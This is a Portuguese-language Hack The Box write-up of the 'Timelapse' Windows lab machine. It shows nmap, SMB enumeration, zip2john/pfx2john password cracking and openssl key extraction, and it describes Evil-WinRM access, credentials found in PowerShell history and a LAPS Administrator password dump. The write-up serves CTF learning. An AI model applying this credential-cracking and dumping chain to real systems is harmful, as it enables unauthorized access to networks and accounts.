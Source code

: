 ```yaml
---
title: Hack The Box - TimeLapse
author: R3d-4rr0w
date: 2022-04-05 09:00:00 -0300
categories: [Hack The Box, Writeups]
tags: [HTB, Writeups, Windows, Easy, LAPS]
image: "/img/htb/timelapse/htb-timelapse-logo.png"
alt: "HTB Timelapse Writeup"
---
```



# Hack the Box - Timelapse

<img src="/img/htb/timelapse/htb-timelapse.png">

Reconhecimento:

NMAP SCAN

```bash
┌──(red_arrow㉿kali)-[~]
└─$ nmap -sV -Pn -p- --min-rate 1000 10.10.11.152 -v
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-01 22:20 EDT                                                             
PORT      STATE SERVICE       VERSION                                                                              
53/tcp    open  domain        Simple DNS Plus                                                                      
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-02 10:27:50Z)                       
135/tcp   open  msrpc         Microsoft Windows RPC                                                                
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49696/tcp open  msrpc         Microsoft Windows RPC
53816/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Dentre várias portas abertas, podemos ver que as portas 139 e 445 SMB estão abertas.

Vamos enumerar os compartilhamentos desse serviço.

Listando as pastas do SMB.

```bash
┌──(red_arrow㉿kali)-[~]
└─$ smbclient -L //10.10.11.152/
Enter WORKGROUP\red_arrow's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Dentro da pasta Shares temos:

```bash
┌──(red_arrow㉿kali)-[~]
└─$ smbclient //10.10.11.152/Shares
Enter WORKGROUP\red_arrow's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 1152581 blocks available
smb: \>
```

Dentro da pasta Dev temos um arquivo de backup

```bash
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                6367231 blocks of size 4096. 1152580 blocks available
smb: \Dev\>
```

Dentro da pasta HelpDesk temos

```bash
smb: \> cd HelpDesk
smb: \HelpDesk\> ls
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021

                6367231 blocks of size 4096. 1147148 blocks available
smb: \HelpDesk\>
```

Após fazer o download dos arquivos encontrados, vemos que o arquivo winrm_backup.zip está protegido por senha. 

Vamos usar o zip2john para extrair o hash da senha do arquivo compactado para que seja possível fazer o bruteforce

```bash
┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ zip2john winrm_backup.zip > password.txt
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

Faremos um bruteforce para tentar quebrar a senha:

<img src="/img/htb/timelapse/htb-timelapse1.png">

Após extrair o conteudo, temos acesso a um arquivo pfx com senha.

Vamos usar o pfx2john para extrair o hash da senha novamente

```bash
┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ pfx2john legacyy_dev_auth.pfx > legacy.txt
```

Vamos tentar quebrar a senha denovo usando o john.

<img src="/img/htb/timelapse/htb-timelapse2.png">

Agora que temos a senha, vamos extrair o certificado e a chave  do client do arquivo pfx.

```bash
┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:

┌──(red_arrow㉿kali)-[~/Documents/HackTheBox/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt
Enter Import Password:
```

Como visto no scan do nmap, temos a porta 5986 - WinRM aberta.

Agora que temos os certificados do client, tentaremos acessar um powershell remoto com o evil-winrm

<img src="/img/htb/timelapse/htb-timelapse3.png">

Conseguimos acesso a máquina.

Buscando nos diretórios que temos acesso, achamos a flag de usuario (user.txt) no Desktop do usuário que estamos logados.

<img src="/img/htb/timelapse/htb-timelapse4.png">

Continuando a exploração, vamos olhar no histórico do powershell para ver se encontramos algo de interessante.

Conseguimos achar as credenciais de outro usuário.

<img src="/img/htb/timelapse/htb-timelapse5.png">

Agora podemos acessar ao powershell remoto usando o usuário e a senha que encontramos.

<img src="/img/htb/timelapse/htb-timelapse6.png">

Ao enumerar os usuários do AD, encontramos o user Administrator 

<img src="/img/htb/timelapse/htb-timelapse7.png">

Além do arquivo de backup que encontramos no SMB, também encontramos vários documentos a respeito da implantação do serviço LPAS.

Sabendo que as senhas do ‘Administrator’ são salvas localmente no Active Directory, vamos tentar fazer o dump das credenciais.

<img src="/img/htb/timelapse/htb-timelapse8.png">

Agora que temos a senha do Administrator, vamos fazer login usando novamente o Evil-WinRM.

<img src="/img/htb/timelapse/htb-timelapse9.png">

Após um tempo buscando a flag do root, que não estava no Desktop do user, como de costume, tentei ver nos outros usuários.

E estava no Desktop de outro usuário.

<img src="/img/htb/timelapse/htb-timelapse10.png">

E assim conseguimos comprometer a máquina e conseguir as duas flags.

<img src="/img/htb/timelapse/htb-timelapse11.png">